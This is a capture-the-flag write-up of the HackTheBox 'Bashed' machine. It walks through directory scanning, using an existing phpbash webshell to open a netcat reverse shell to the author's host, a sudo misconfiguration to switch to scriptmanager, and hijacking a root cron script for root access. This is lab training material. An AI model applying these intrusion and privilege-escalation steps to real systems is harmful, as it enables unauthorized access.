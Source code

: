 ```yaml
---
title: Bashed writeup
date: 2022-06-17 15:30:00 +0200
categories: [Writeup, HackTheBox]
tags: [Easy-box]     # TAG names should always be lowercase
img_path: /assets/img/boxes/bashed/
image: # Thumbnail 
  src: Bashed.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Foothold
When first visiting the site, we get greeted by this page:

![landing page for phpbash](index.png)

It seems that the site is advertising a pentest tool, and they even inform us that it was used on this very server! 

Performing a directory scan with gobuster, we get the following output:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/bashed]
└─$ gobuster dir -u http://10.129.73.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.73.18
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 21:11:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.129.73.18/images/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.73.18/uploads/]
/php                  (Status: 301) [Size: 310] [--> http://10.129.73.18/php/]    
/css                  (Status: 301) [Size: 310] [--> http://10.129.73.18/css/]    
/dev                  (Status: 301) [Size: 310] [--> http://10.129.73.18/dev/]    
/js                   (Status: 301) [Size: 309] [--> http://10.129.73.18/js/]     
Progress: 2282 / 220561 (1.03%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/06/13 21:11:14 Finished
===============================================================
```

Lets start by checking out `/dev`{: .filepath}:

![Contents of /dev](phpbash.png)

It seems like phpbash is already on the server! Let's figure out how it works:

![phpbash in action](phpbashworking.png)

phpbash seems to be a pretty nice webshell. We'll use it to give ourselves a reverse shell on the system. 
```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.73.18] 45376
$ ls
ls
arrexel  scriptmanager
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ 
```
## Privilege escalation
Since we can run any sudo command as scriptmanager we just switch user like so:
```console
$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
scriptmanager@bashed:/home$ 
```
There is a non-standard root-level direcotry named `/scripts`{: .filepath}. In it we find a file named test.py:
```console
criptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 13 10:27 test.txt
scriptmanager@bashed:/scripts$ 
```

As we can see, the file  simply opens a file test.txt, writes "testing 123!" in it and then closes that file. Based on the timestamp on that file it seems that it is being run as a cronjob by root. 
A way to exploit this is to realise that although root is running the cronjob, the cronjob simply involves executing test.py, which we have access to. We can either replace the file with one that gives us a reverse shell or we can just change what is written to the file, for example root.txt

Rooted!